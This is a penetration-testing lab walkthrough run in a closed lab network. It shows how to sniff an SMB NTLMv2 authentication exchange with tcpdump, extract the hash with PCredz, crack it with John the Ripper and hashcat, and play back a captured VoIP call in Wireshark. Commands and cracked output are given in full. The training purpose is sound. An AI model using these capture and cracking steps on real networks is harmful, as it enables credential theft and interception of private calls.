





Lab 4.5: Sniffing, Cracking, and VoIP Playback
Objectives
- To sniff a NTLMv2 challenge/response exchange via SMB
- To use John the Ripper and hashcat to determine the password from the sniffed NTLMv2 authentication messages
- To use Wireshark's VoIP decoder functionality to turn a packet capture file of a VoIP phone call into an audio file we can listen to
Lab Setup
You will need both your Windows 10 VM and your Slingshot VM. Confirm network connectivity by pinging 10.10.10.10 from each system.
sec560@slingshot:~$ ping -c 2 10.10.10.10
C:\Users\sec560> ping 10.10.10.10
Lab – Step-by-Step Instructions
Step 1: Crack LANMAN Challenge/Response and NTLMv2
For this lab, move to your Linux machine and invoke smbclient to try to access the Windows system at 10.10.10.10 via SMB. Just enter a bogus username and password so we won't successfully authenticate. Although that exchange occurs, we’ll be running tcpdump on Linux to sniff the exchange, which we can then crack.

This lab models a number of different scenarios, a few of which are outlined here:
An attacker has a man-in-the-middle position and captures authentication
An attacker runs a service and waits for a vulnerability scanner to connect to the service
An attacker is allowed to get a user to try to mount a share on an attacker-controlled machine
Go to your Slingshot Linux virtual machine. Here we first run our tcpdump sniffer to grab packets associated with the authentication exchange. You need two terminal windows: one for tcpdump to sniff and another for smbclient to do the authentication to Windows. Launch two terminal windows.
In one terminal, run tcpdump as follows:
sec560@slingshot:~$ sudo tcpdump -nv -s0 port 445 -w /tmp/winauth.pcap
The -s0 here indicates that we want full packets, not just the first 68 bytes (some old versions of tcpdump will only grab the first 68 bytes). The -v makes tcpdump print out how many packets it has received so far. The -w option causes tcpdump to put its packets in a packet capture file for us. We’ll focus only on packets associated with port 445.
While tcpdump is running, in another terminal, invoke smbclient to perform an authentication attempt with the 10.10.10.10 Windows system.
In the other Linux terminal, type:
sec560@slingshot:~$ smbclient //10.10.10.10/c$ Bond007 -U clark WARNING: The "syslog" option is deprecated session setup failed: NT_STATUS_LOGON_FAILURE
The password won't work, and that is expected. The goal is to capture the authentication for cracking.
When you press Enter in Linux to run the smbclient command, you see a LOGON_FAILURE. More importantly, your tcpdump sniffer in the other window should show that you’ve captured some packets. You should see it indicate that it has Got XX packets, where XX will be 11 or more.
IMPORTANT NOTE: YOU MUST press CTRL-C in the tcpdump terminal or tcpdump will not write the packets into its capture file. We’ve gathered our packets.
Step 2: Extract hashes from Pcap file
We will use PCredz to extract the password hashes from the pcap file. The tool can extract "Credit card numbers, NTLM(DCE-RPC, HTTP, SQL, LDAP, etc), Kerberos (AS-REQ Pre-Auth etype 23), HTTP Basic, SNMP, POP, SMTP, FTP, IMAP, etc from a pcap file or from a live interface."
The PCredz tool is particular in where and how it is run. We need to run it from the directory containing the Pcredz executable.
Note: The executable is named
Pcredzbut the tool is calledPCredz(note the changing case of the "C"). Going forward, we'll refer to it by the executable name,Pcredz.
We first need to change to directory where Pcredz is located and then run the tool on the pcap file:
sec560@slingshot:~$ cd /opt/PCredz/ sec560@slingshot:/opt/PCredz$ ./Pcredz -v -f /tmp/winauth.pcap Pcredz 1.0.0 Author: Laurent Gaffie Please send bugs/comments/pcaps to: laurent.gaffie@gmail.com This script will extract NTLM (http,ldap,smb,sql,etc), Kerberos, FTP, HTTP Basic and credit card data from a given pcap file or from a live interface. CC number scanning activated Using TCPDump format 9 protocol: tcp 10.10.75.102:60246 > 10.10.10.10:445 NTLMv2 complete hash is: clark::WORKGROUP:3bbf38e81a7e062e:73AD99D32BEC6430236C9 D0292690279:01010000000000009E8002500236D501A8FF19D50AA397680000000002000C005300 4500430035003600300001000E005400520049004E00490054005900040018007300650063003500 360030002E006C006F00630061006C00030028007400720069006E006900740079002E0073006500 63003500360030002E006C006F00630061006C00050018007300650063003500360030002E006C00 6F00630061006C00070008009E8002500236D5010600040002000000080030003000000000000000 0000000000000000843008B612EF5414CB198750A2FBBA33D5D061776BF67A80845252B6CA236623 0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00 310030002E00310030002E003100300000000000 /tmp/winauth.pcap parsed in: 0.0385 seconds (File size 0.00263 Mo).
The previous command creates a file named CredentialDump-Session.log that contains the password hash. Let's extract the hash for cracking.
sec560@slingshot:/opt/PCredz$ grep clark CredentialDump-Session.log | cut -d ' ' -f 5 | tee hash.txt clark::WORKGROUP:3bbf38e81a7e062e:73AD99D32BEC6430236C9D0292690279:0101000000000 0009E8002500236D501A8FF19D50AA397680000000002000C0053004500430035003600300001000 E005400520049004E00490054005900040018007300650063003500360030002E006C006F0063006 1006C00030028007400720069006E006900740079002E007300650063003500360030002E006C006 F00630061006C00050018007300650063003500360030002E006C006F00630061006C00070008009 E8002500236D50106000400020000000800300030000000000000000000000000000000843008B61 2EF5414CB198750A2FBBA33D5D061776BF67A80845252B6CA2366230A00100000000000000000000 0000000000000000900200063006900660073002F00310030002E00310030002E00310030002E003 100300000000000
The above command uses grep to find the line containing clark. The line is then piped into cut. The cut command will use a space as a delimiter (-d ' ', note the space between the quotes) and select the fifth field (-f 5). The hash is then printed to the console and saved to hash.txt using the tee command.
We have the hash in the proper format so that we can then use john to crack.
sec560@slingshot:/opt/PCredz$ john hash.txt Using default input encoding: UTF-8 Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64]) Will run 2 OpenMP threads Proceeding with single, rules:Single Press 'q' or Ctrl-C to abort, almost any other key for status Almost done: Processing the remaining buffered candidate passwords, if any. Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist Bond007 (clark) 1g 0:00:00:00 DONE 2/3 (2019-07-09 03:08) 50.00g/s 428100p/s 428100c/s 428100C/s ilovegod..mobydick Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably Session completed
Alternatively, we can use hashcat to crack this NETNTLMv2 hash:
sec560@slingshot:/opt/PCredz$ hashcat -w 3 -a 0 -m 5600 hash.txt /opt/password.lst
And then look at the cracked password by using the following command:
sec560@slingshot:/opt/PCredz$ hashcat -m 5600 --potfile-path ~/.hashcat/hashcat.potfile --show --outfile-format 2 hash.txt Bond007
The options are:
-m 5600: NetNTLMv2 mode--potfile-path ~/.hashcat/hashcat.potfile: The location of the potfile--show: Show the results--outfile-format 2: Output formathash.txt: File containing the hashes
Step 3: VoIP-to-audio file conversion with Wireshark
For this portion of the lab, we need to switch to Windows.
Download the capture.pcap file from here, then open it in Wireshark.

Select the stream and then click "Analyze".

Note: You may end up with each half of the conversation in a separate stream and you will have to listen to each steam individually.
Click "Play Streams".

... then click the play button (make sure your audio is enabled).

You've successfully extracted audio from a VoIP call!
Conclusion
In this lab, we have seen the versatility of sniffing. We've used tcpdump to capture authentication, extracted hashes and cracked the NTLMv2 challenge/response, and cracked the hashes. And finally, we’ve seen how Wireshark can take a packet capture file of a VoIP phone call and recover the original audio from the call.